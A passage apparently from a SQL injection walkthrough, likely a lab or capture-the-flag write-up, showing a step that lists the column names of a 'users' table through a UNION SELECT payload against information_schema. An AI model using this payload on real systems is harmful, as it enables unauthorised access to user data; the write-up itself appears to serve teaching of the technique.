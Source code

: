     <img style="height: 400px;" src="./select-all-tables.png" alt="select-all-tables">
    <figcaption>Selecting All Tables</figcaption>
</figure>

<br>
<br>

Next, I select the columns found in the users table so I can query it using the command:
```
UNION SELECT 1,concat('column: ', column_name),3,4 FROM information_schema.columns WHERE table_name='users'
```
